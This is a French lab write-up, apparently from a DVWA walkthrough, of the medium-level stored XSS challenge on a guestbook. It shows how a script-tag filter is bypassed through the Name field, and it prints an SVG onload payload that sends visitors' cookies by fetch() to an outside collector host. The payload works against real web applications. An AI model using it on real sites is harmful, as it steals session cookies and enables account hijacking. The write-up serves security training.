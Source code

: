 # Niveau "Medium"

Pas de changement sur le guestbook :

![](../../../../.gitbook/assets/5076ad0022975412aaf350b2d4bead8d.png)

Il n'est pas possible ici d'exécuter une popup `alert()` simplement. En effet, les balises `<script>` `</script>` semblent être filtrées et le champ "Message" semble également échapper le caractère `"""` (et donc sans doute également le caractère `"'"`) :

![](../../../../.gitbook/assets/c7e438ccbf248c8c155dcf0f1fdfc9b5.png)

Je vais me concentrer sur le champ "Name" étant donné qu'il semble être plus permissif. Je tente tout d'abord de passer par une autre balise afin d'exécuter notre javascript :

![](../../../../.gitbook/assets/409fda59350b4afebe9c56e088498d79.png)

Cela fonctionne. Il me reste plus qu'à améliorer ma payload afin de récupérer les cookies des visiteurs :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/cac83dca6e4bade94123fd6517923bbc.png)

L'attaque fonctionne, le cookie du visiteur est envoyé vers mon serveur malicieux :

![](../../../../.gitbook/assets/979b4817a9f54ad7338b9a12e0bcc474.png)
